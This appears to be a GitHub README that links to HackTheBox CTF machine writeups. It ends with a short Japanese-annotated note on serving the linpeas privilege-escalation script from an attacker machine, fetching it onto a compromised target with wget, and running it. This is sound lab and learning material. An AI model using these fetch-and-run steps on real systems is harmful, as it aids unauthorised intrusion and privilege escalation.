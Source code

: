 # HackTheBox-writeup
HTB machines writeup


## Instant

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Instant


## Cap

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cap


## Strutted

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Strutted


## Cicada

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Cicada


## PermX

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/PermX


## Mirai

https://github.com/s1f102201672/HackTheBox-writeup/tree/main/Mirai




# Tools
## linpeas
home/kaliにインストール

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

/home/kali送る側
```
python3 -m http.server 8080
```

ターゲットマシンで受け取る
```
cd /tmp
wget http://10.10.xx.xx/linpeas.sh -O linpeas.sh
--2025-04-08 07:42:59--  http://10.10.xx.xx/linpeas.sh
Connecting to 10.10.14.32:80... failed: Connection refused.

xx:/tmp$ ls
linpeas.sh

xx:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh

./linpeas.sh
www-data@boardlight:/tmp$ ./linpeas.sh | tee linpeas_output.txt
```
